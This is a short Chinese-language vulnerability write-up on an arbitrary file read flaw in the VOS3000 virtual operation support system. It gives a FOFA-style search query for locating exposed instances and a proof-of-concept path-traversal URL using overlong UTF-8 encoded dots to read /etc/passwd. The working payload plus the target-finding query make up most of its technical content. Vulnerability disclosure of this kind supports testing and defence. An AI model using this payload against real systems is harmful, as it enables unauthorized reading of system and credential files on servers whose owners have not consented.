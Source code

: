 # 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>昆石网络 VOS3000虚拟运营支撑系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="VOS-VOS3000"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646106250912-5403bbab-c801-402a-923b-545c45f1051d.png)

验证POC

```javascript
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![img](../../../.vuepress/public/img/1646106380805-4471d7bf-54b9-4eec-8f1a-b2a33881335b.png)